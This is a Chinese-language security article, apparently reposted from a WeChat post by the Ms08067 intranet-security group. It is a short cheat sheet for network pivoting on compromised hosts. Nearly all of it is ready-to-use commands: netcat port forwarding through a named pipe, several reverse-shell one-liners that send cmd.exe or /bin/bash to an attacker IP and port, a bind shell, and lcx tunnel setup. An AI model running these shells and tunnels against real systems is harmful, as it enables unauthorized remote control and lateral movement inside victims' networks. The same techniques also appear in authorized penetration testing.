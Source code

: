 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ku95o0dYXa8HOk4vvJOOog)

> 本文作者：****掉到鱼缸里的猫****（Ms08067内网安全小组成员）  

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibld24IhPCibn1E7iapRtiaaia1HGZh34ibLF8iaiaI5cQEPLgibMocOiaZc0VkvztzB0XKX3UJiaFJw5sHWKHg/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)  

******文章来源｜MS08067 内网安全知识************星球******  

  

**********内网纵横四海  认准Ms08067  
**********

![图片](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9zFRlVfhOz98FTo6NtLvuvMP8liaGgf3UrcK6zk8YEMkAgGQlzMJvvEpT62cygia1ial9VHptn8pTmA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

NetCat

* * *

方法一：

靶机：

```
`mkfifo /tmp/fifo` `cat /tmp/fifo| nc 想要转发的目标 想要转发到的端口 | nc -lp 监听端口> /tmp/fif`
```

攻击机：nc -nv 靶机IP 靶机监听端口

反向Shell：

靶机：

```
`方法一：nc -t -e cmd.exe 攻击机IP 攻击机监听端口``方法二：cat /tmp/fifo | /bin/bash -i 2>&1 | nc 目标IP 端口 > /tmp/fifo``方法三：nc -e /bin/sh 10.0.3.4 4444 （后期的nc就没有-e的选项了）``攻击机（公网）：nc -lvp 监听端口`
```

不能转发3389  

正向shell

靶机：  

```
`$ mkfifo /tmp/fifo` `$ cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l 本地端口 > /tmp/fifo 12`
```

攻击机：nc 目标IP 端口

lcx

* * *

服务端：lcx -slave 公网IP 公网端口 本地IP 本地端口

公网客户端：lcx -listen 远程端口 本地端口

客户端连接本地端口，对应于连接远程端口

先启动listen，再启动slave
